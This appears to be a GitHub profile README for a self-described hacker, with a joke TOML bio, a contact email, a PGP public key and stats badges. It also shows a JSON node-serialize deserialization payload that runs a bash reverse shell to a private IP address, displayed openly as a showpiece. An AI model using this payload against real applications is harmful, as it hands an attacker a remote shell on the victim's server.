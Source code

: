 <div align="center">
<h3>Hey guys, I'm 1337KID<br/>(definitely not a kid)</h3>
<br>
<img align="center" src="http://github-profile-summary-cards.vercel.app/api/cards/profile-details?username=1337kid&theme=midnight_purple" alt="kek" />
</div>
<br/>

```toml
[1337kid]
desc = "Just a guy who can make your PC go sponge made"
langs = [ "Python" , "Shell ??" ]

[Contact]
email = "1337kid@proton.me"
PGP_ACCEPTED = true
```
sErIaLiZe
```json
{"leet":"_$$ND_FUNC$$_function() {require('child_process').exec('/bin/bash -i >& /dev/tcp/192.168.1.209/1234 0>&1', function(error, stdout, stderr) { console.log(stdout); });}"}
```
<details closed>
<summary>Click to view my PGP Public key</summary>
<pre>
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQINBGSRWkQBEACz/zddmh711CESKzolkWB/4fl+xp1ytj9i2m+nGAR5Q709rltq
IeLitiUkn6jHb31Qb/4BWPIHnZcf2oxLtIiabUbLB0Pls9Ws+uuy+QlF2OJEb4Wu
4IKUpRrTq1nRUkFTiEe9HQk7m4zCOkqoln9HqDSH0ULuij91Kv1Qi+k/BJKKDMZ5
f9xMv4KJ8SRas6sX0sYcUByGfIP2tAIPUW79fOQ6DPxuRnen/rXzCFMIUw9hk5+u
In61xGyLqGSNtAYaTCkEvNpkYEJSQA9OsQE9SPy4D7RakA71UcnuHbwA1RzjXmMk
Vr0lyfVboKRwp7C5fDAkUQsE6kRJbyL17dtto1BqChOTITxyhPCOvg+MFs+7M4ml
tkYq3f0sddwXrPWCbqb0qWvAbnuvs3CeSKpb2r8GpKRmh0UayDgzfdhc8MyvSafg
oQLjBpayH8msqMQGqbgE81EjgvcA1LaNBtemGrjBAhulHsNovXo/8Jqsmr+Yd/dL
XsBAMq8vlSfk+SYNl3dAyS6u3w2ILo3XHpY0eom+EpA6sJuwU30NkUzcdYFyz1US
b8tFl1kF/d9NAxjtNZMoSliH4mRG84J61JHffraL84BhbpnOI3BZBMxjbGk8l3Qn
nQYArChxWgPkRe77mGr5mpXXoNTd5KYNUjE17gjbiebaxht/NpoCk24KqwARAQAB
tBtsZWV0a2lkIDwxMzM3a2lkQHByb3Rvbi5tZT6JAk4EEwEKADgCGwMFCwkIBwIG
FQoJCAsCBBYCAwECHgECF4AWIQTQOIxHPLxqZvF0htoT3jtRy9gz6AUCZJFa1QAK
CRAT3jtRy9gz6NyID/4sJEnSkzcstJe9VAcF99Zmac0asJK9pnV5vc1uOsUXjOJv
6ROCMRqsdwuMsxEVk2KBhMJnBuRXXCZNXWXgZjg4mW0WqO9biJx4GNzUKI8jUXDu
YRLpKsq1MWsR0s/qnqrnhIj+C8xlYJOenOvwmbw6JXzJvG8ldPq5vaYxpHU3gocA
i7L7gVpRSmxHRFSk82H02uR4BXgPxP08InMMVy+BKNqQQNM2xgPF7tup4fOTq8fS
gIowJf0Qe/YMU201ePNRsya7KM4jJl8XG1RLDmW6rvIJobJkVZ22J2syWR2CK8sF
6U6ARk9kWmBpyp6ZIlvyBYpHzF4Q32wjhfwZbbXNCXLoUUu1oOKqvPHmdG+DiujD
alWxrwHqBOtcEeMg1mJTaqOH/j9FLw6iWcpFGfMgMScEZf5LgrxwXJflmE82qwAG
U8ZV3k45GnRtYC5h8S7iVFAZ6AokRgbzH9gRdB/udfukoQXTSO9tgXYmGzayXBzZ
6MBWuq8MKs8d6VljKKDZhv73rvkP8MLPMyCezhXrqPfVknPGIRrxWB2hj4XrnywV
MIY6VAeNPFgF69DWP4Sl2r7MIjmTZ392ChbCipv6PPEPrFO0tEpoqkYUrWRcBg4i
3vwWMYnt8zemDECl8yFfhyLqgMykS6uClKnzQiYjEsWhntCFVNLLCaEtnJB+dQ==
=pts+
-----END PGP PUBLIC KEY BLOCK-----
</pre>
</details>

<div align="center">
  
| <img src="https://streak-stats.demolab.com?user=1337kid&theme=ambient-gradient&hide_border=true&background=45%2CEB00BD%2C1E1BEB" alt="kek" /> | <img src="https://github-readme-stats.vercel.app/api/top-langs/?username=1337kid&layout=compact&theme=midnight-purple&hide_border=true" alt='lol'/> |
| ------------- | ------------- |

</div>
